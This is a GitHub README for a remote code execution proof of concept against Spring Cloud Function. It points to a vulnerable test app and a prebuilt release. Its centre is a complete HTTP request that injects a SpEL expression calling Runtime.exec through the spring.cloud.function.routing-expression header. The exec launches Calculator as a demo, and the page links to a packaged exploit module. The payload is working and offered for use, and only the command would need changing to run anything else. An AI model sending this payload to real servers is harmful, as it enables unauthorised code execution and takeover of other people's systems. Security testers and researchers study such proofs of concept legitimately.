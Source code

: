 # spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use [the release which built by cckuailong(Yh,it's me)](https://github.com/cckuailong/spring-cloud-function-SpEL-RCE/releases/tag/untagged-e1c4060d01bbb4ddc6cf)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！

![demo](./img/demo.png)

Enjoy it!

I put the poc code in the repo:

https://github.com/cckuailong/pocsploit

https://github.com/cckuailong/pocsploit/blob/master/modules/vulnerabilities/springcloud/springcloud-function-spel-rce.py

![demo2](./img/demo2.png)

[Article](https://mp.weixin.qq.com/s/AVvyKjRz_XooIB0s1S8njA)

